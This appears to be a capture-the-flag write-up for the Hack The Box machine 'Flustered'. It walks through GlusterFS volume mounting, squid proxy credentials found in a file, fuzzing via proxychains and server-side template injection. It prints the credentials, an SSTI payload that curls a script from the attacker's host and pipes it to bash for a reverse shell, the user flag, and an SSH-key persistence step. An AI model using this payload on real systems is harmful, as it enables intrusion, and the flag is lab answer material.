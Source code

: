 # Flustered (Full Pwn)

## User

Starting with port scanning using nmap.
![nmap_scan](1.png)
We see a lot of ports open. In port 80 we see an empty webpage, fuzzing didn't help too. In 3128 there is http-proxy which might be useful later. We can't find anything interesting on most open ports. Searching the ports one by one we get an interesting result at the first link we find about 24007 port.
![google_glusterfs](2.png)
GlusterFS is a scale-out network-attached distributed storage file system. So we can mount the remote filesystem to our machine . We can install it using apt. Using gluster command we can list volumes from the remote machine.

` gluster --remote-host=10.129.96.25 volume list `

![gluster_list](3.png)
With ` volume info ` we can see more informations about the volumes. Now we mount the volumes to our system to enumerate for more information.

` mount -t glusterfs 10.129.96.25:/vol1 /mnt/gfsvol/ `

![gluster_list](7.png)
We can't mount the vol1.
![gluster_list](8.png)
We get the error cause we miss the ssl certificates to mount them. We mount the vol2 successfully. We can see a mysql directory and searching inside we can't find anything useful. In squid directory there is a file passwd.ibd and inside we found credentials.
![gluster_list](9.png)
We can use the credentials at squid proxy to see internal services in the machine. Using foxy proxy we navigate to 127.0.0.1 to see an nginx default page. Using proxychains to fuzz the web page. Edit the /etc/proxychains4.conf file to comment last line and the new one :
` http <IP> 3128 lance.friedman o>WJ5-jD<5^m3 `
Now we use proxychains command to go through squid proxy and fuzz the web page.
` proxychains -q wfuzz -c -w /usr/share/wordlists/dirb/big.txt --hc 404,400,403 -R5 -u http://127.0.0.1/FUZZ `
We discover an /app directory, but we get 403 forbidden, so fuzzing again the /app for more directories and files. Testing for .py files we got an app.py and got to the url and we prompt to download the file. Reading the source code we understand that it's the source code for the first web page out of the proxy. We can see that in title tag a function inside curly braces so can try ssti there to see if it's vulnerable.
![ssti_test](10.png)
And we get command execution. So we can get reverse shell in the machine with the following payload:

` {{ self.__init__.__globals__.__builtins__.__import__('os').popen('curl http://10.10.14.38:8000/rev.sh | bash').read()}} `

We get reverse shell as www-data. Searching in /etc/ssl we find the certificates to access the vol1. We copy the files to our /etc/ssl/ directory and then mount the vol1 from gluster.
` mount -t glusterfs 10.129.96.25:/vol1 /mnt/gfsvol/ `
Now we can go to directory gfsvol to see the directories we mounted.
![vol1](4.png)
There is a directory named jennifer, probably a user of the remote machine, where we can see it's files. Inside there is the user.txt flag so we can read it.
![jennifer_dir](6.png)

**HTB{m0v1Ng_tHr0ugH_v0lUm3s_l1K3_a_jInj4}**

As it is a shared filesystem we can create our ssh keys and create the authorized_keys file to ssh into the machine.